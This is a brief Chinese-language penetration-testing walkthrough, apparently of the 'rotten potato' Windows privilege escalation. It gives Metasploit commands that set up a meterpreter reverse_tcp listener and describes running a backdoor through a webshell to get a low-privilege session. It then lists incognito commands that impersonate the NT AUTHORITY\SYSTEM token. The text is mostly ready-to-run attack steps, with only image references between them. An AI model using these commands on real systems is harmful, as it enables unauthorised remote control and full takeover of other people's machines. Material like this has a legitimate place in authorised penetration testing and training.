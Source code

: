 msf启动监听

```shell
msfconsole
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 5577
exploit
```

![设置监听](./烂土豆/设置监听.png)

通过wenshell，执行后门程序。

![执行后门](./烂土豆/执行后门.png)

监听到会话，是web普通权限。

![获得会话](./烂土豆/获得会话.png)

使用令牌窃取提权

```shell
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```
